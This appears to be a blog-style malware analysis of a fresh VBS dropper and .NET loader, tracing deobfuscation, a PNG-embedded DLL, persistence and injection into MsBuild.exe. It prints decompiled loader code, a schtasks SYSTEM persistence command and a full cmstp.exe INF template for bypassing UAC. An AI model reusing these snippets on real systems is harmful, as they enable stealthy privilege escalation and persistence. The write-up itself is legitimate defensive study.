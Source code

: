 At the time of writing it is around a day that malicious script appeared in wild. To practice and improve myself I chose this malware.

For now in virustotal, it can be seen that malware is only detected by 9 AVs and the server for downloading second payload (*png* file) is still available to be downloaded. 

Starting with analysis, The file's size is really big but only reason for it was repeat of same 10 lines. 
![1|500](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/1.png?raw=true)

Using ASCII table we can replace all occurrences of these variables with their Char values.

At first it looked like it is only repeating same 10 line for increasing file size (to look legit), but one more reason was probably trying to hide obfuscated code. (Maybe not but only good explanation is this)
![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/2.png?raw=true)

At first it might not make sense but you can obviously see same pattern repeat in obfuscated code:
`"⏳लბ⣿༑₫ᨑԿ🖲ᅫҌ⊣ሒȪ⟚"`

and payload use `categorised(ByVal inputText)` function to deobfuscate it. (By removing repeating line)
![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/3.png?raw=true)

In this situation manually writing deobfuscater  would be possible to but, it is waste of time. I just changed `dozens = categorised(dozens)` with `WScript.Echo categorised(dozens)` (Don't forget to only copy necessary parts in new file to avoid running something dangerous). I ran the code using **cscript.exe** to see output in my **cmd**.

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/4.png?raw=true)

Now to deobfuscate, we need to replace '#' with 'A' and convert base64 to string. Once again instead of using cyberchef I just run powershell code with removing `Invoke-Expression` and beautify it a little bit. This is the code that downloads second file. (png)

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/5.png?raw=true)
A day later, the malicious file was deleted from server but I installed it before, so I can continue my analysis. I will also upload file to **malware bazaar** for anyone that needs it to analyse on his own.

This image file has Data starting with '<<BASE64_START>>' and ends with '<<BASE64_END>>' after decoded it is uploaded to memory but I modified code and used function:
```ps1
[System.IO.File]::WriteAllBytes("C:\dnlib_image.dll", $cleared)
```

to save it in a file and when we load this dll to dnspy-x86, it loads it as `Microsoft.Win32.TaskScheduler, Version=1.1.0.0` and dnlib inside, which is necessary part of us:
![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/6.png)

You can check out [Robson Felix's VMDetector](https://github.com/robsonfelix/VMDetector)to understand how it works. I modified qemu strings in my system so I have 0 "qemu" string in my system which helps me avoid detection. this script is really basic as it checks for only "qemu" (easy to stay undetected). 
Note: Even though this malware has function to check detect vms, it doesn't use it. (if you remember the arguments given when VAI is called, they are necessary part of this function)

In next line we can see the malicious code calling specific function that is interesting for us, **VAI**.

![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/7.png?raw=true)


some of the variable names are written in Spanish, which might be a tip for malware writer being Spanish. (Of course, it is not a guarantee) 

I have written custom code in C# to be able to manually debug this dll. 

The functions function didn't use: persistence, startuptask, startupreg (even though it could). (To make it clear these are not function names, these are variables)

Moving on, startup_onstart is actually used, let's understand what it does.
Before understanding the function, I retrivied Hashtable values that are used through dll and saved all of them to single file to make analysis easier.

This is the part we have to analyze now:
```csharp
if (flag12)
{
	bool flag13 = !File.Exists(Path.Combine(caminho, nomedoarquivo + \uE11C.\uE000(12567) + extençao));
	bool flag14 = flag13;
	if (flag14)
	{
		Process.Start(new ProcessStartInfo
		{
			WindowStyle = ProcessWindowStyle.Hidden,
			FileName = \uE11C.\uE000(12607), // "cmd.exe"
			Arguments = string.Concat(new string[]
			{
				// "/C copy *."
				\uE11C.\uE000(12599),
				// "vbs"
				extençao,
				// " \""
				\uE11C.\uE000(12770),
				//  1. @"C:\ProgramData" 2. "millipascals"
				Path.Combine(caminho, nomedoarquivo), 
				// "."
				\uE11C.\uE000(12567),
				// "vbs"
				extençao,
				// "\""
				\uE11C.\uE000(12282)
			})
		}).WaitForExit();
	}
	Loader.ExecutarMetodoVAI(taskname, caminho, nomedoarquivo, extençao);
}
```

Basically checks if file exists, if not, starts new process: 
`cmd.exe /C copy *.vbs "C:\ProgramData\millipascals.vbs" 
copies the vbs file to its new location.

**ExecutarMetodoVAI** is called with arguments: `"blinkered" @"C:\ProgramData"	"millipascals" "vbs"`

at first line, function searches for specific string in resources:
`string text = Array.Find<string>(Assembly.GetExecutingAssembly().GetManifestResourceNames(), new Predicate<string>(Loader.<>c.<>9.\uE000));`

When using dnspy, it hides compiler generated types and modules by default which you need to enable.

The `(Loader.<>c.<>9.\uE000)` sets condition **true** if "string" ends with "UAC.dll"
and in next lines, first stream is loaded into an array and array was loaded to caller program (powershell):
```C#
byte[] array;
using (Stream manifestResourceStream = Assembly.GetExecutingAssembly().GetManifestResourceStream(text))
{
	using (MemoryStream memoryStream = new MemoryStream())
	{
		manifestResourceStream.CopyTo(memoryStream);
		array = memoryStream.ToArray();
	}
}
Assembly assembly = Assembly.Load(array);
```


and calls "Main" method in UAC.dll (type:UAC.Program).

![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/8.png)

Which I will use new custom script to run it and debug manually.

First thing "UAC.dll" does is create a new string:
`@"cmd.exe /c powershell -Command ""schtasks /Create /TN 'blinkered' /TR 'wscript.exe C:\ProgramData\millipascals.vbs' /SC ONSTART /RL HIGHEST /RU SYSTEM /F"""` with given parameters.

* Generates new inf file under temporary path.
* Changes "REPLACE_COMMAND_FILE" in `private static string INF_TEMPLATE = "[version]\r\nSignature=$chicago$\r\nAdvancedINF=2.5\r\n\r\n[DefaultInstall]\r\nCustomDestination=CustInstDestSectionAllUsers\r\nRunPreSetupCommands=RunPreSetupCommandsSection\r\n\r\n[RunPreSetupCommandsSection]\r\nREPLACE_COMMAND_LINE\r\ntaskkill /IM cmstp.exe /F\r\n\r\n[CustInstDestSectionAllUsers]\r\n49000,49001=AllUSer_LDIDSection, 7\r\n\r\n[AllUSer_LDIDSection]\r\n\"HKLM\", \"SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\App Paths\\\\CMMGR32.EXE\", \"ProfileInstallPath\", \"%UnexpectedError%\", \"\"\r\n\r\n[Strings]\r\nServiceName=\"CorpVPN\"\r\nShortSvcName=\"CorpVPN\"";` with the command created before.
* writes this to inf file.

Part 2:
* Checks if file: "C:\Windows\system32\cmstp.exe" exists.
* if it does, Start new process: `C:\Windows\system32\cmstp.exe /au "<inf_file_path>"`
* Basically creates new process to run at every startup for persistence purposes.
* Why use cmstp.exe? To avoid some detections.

That's all with UAC.dll, now we have to go back to `dnlib.IO.Home.VAI`.

To sum up, in next steps malicious dll function launches MsBuild.exe and modifies its code and resumes thread.

* new process: MsBuild.exe created.
* Allocate new space
* Write the malicious program at address: 0x400000

What I did was copy every data that is written and combine them to get a single exe file (Microsoft Visual C++ 8)

```console
copy /b to400000.bin+to401000.bin+to459000.bin+to472000.bin+to478000.bin+to47D000.bin combined.exe
```

File even have its own icon in .rsrc section.

(Will continue I did some basic dynamic analysis and it looks like code also downloads new data from a server this will go on forever)